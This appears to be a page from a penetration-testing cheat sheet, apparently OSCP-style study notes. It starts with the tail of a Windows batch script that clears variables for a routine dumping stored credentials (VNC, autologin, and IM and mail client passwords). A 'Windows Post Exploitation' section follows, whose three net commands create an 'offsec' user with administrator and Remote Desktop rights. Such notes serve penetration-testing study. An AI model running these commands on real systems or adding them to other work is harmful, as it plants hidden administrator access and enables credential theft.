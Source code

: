 ```batch
set runningelevatedprompt=
set netshfirewall=
set OSVersion=
set alwaysinstallelevated=
set realvncpassfound=
set tightvncpassfound1=
set tightvncpassfound2=
set tigervncpassfound=
set vnc3passfound1=
set vnc3passfound2=
set vnc3passfound3=
set winautologinpassfound=
set winautologindomainfound=
set winautologinuserfound=
set defaultloginpass=
set IE6found=
set IE7found=
set AIM6found=
set AIMPROfound=
set BEYLUXEfound=
set BIGANTfound=
set CAMFROGfound=
set GOOGLETALKfound=
set IMVUfound=
set NIMBUZZfound=
set PALTALKfound=
set YAHOOPAGERfound=
set INCREDIMAILfound=
set OUTLOOK2013found=
set OUTLOOK2010POSTNTfound=
set OUTLOOK2010PRENTfound=
set OUTLOOK98MAILONLYfound=
set OUTLOOK98NORMALfound=
goto:eof

:end
echo.
echo.==============
echo.Dump complete!
echo.==============
GOTO:eof
```

***

## Windows Post Exploitation

### Quickly create account with RDP access

```
net user offsec password1 /add
net localgroup Administrators offsec /add
net localgroup "Remote Desktop Users" offsec /add
```
